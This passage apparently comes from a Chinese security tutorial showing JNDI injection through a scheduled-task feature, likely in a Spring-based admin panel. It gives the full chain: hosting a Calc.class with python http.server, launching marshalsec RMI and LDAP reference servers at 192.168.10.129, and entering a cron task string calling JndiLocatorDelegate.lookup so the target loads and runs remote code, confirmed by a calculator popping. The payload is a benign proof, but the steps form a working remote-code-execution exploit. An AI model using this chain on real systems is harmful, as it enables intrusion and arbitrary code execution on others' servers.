   
将Calc.class文件通过python服务暴露  
**python -m http.server 6000**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGibOJUtib6X9iaIpvOCWAMvlmHlSh1aWqZicrIveUspK6GSyuRoqFJAiaLyA/640?wx_fmt=png&from=appmsg "")  
  
使用  

```
marshalsec
```

  
工具启动一个  

```
RMI服务
```

  
,链接类指向我们公开的端口  
下载marshalsec  
，需要自行编译，或者下载别人已经编译好的  
jar包  
##### RMI注入  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer “http://192.168.10.129:6000/#Calc“ 8888
```

  
添加一个定时任务通过lookup函数加载远程类  
  
目标字符串：  
****  

```
org.springframework.jndi.JndiLocatorDelegate.lookup(‘rmi://192.168.10.129:8888/Calc’)
```

  
cron表达式：0/10 * * * * ?  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGMaHwiarw8gqe6vqH2V4zbh5bRNoRSWdUTTkPGKtV4iblMYBpaJjLHxCA/640?wx_fmt=png&from=appmsg "")  
  
点击执行任务，弹出计算器，测试成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzG6ibComl6GiajiarsdZPjFiaUbpXEibo6IOWtvs1PhPm57rM4bic4dvWJmXrA/640?wx_fmt=png&from=appmsg "")  
##### LDAP注入  
  
启动  

```
ldap
```

  
服务  

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://192.168.10.129:6000/#Calc“ 8888
```
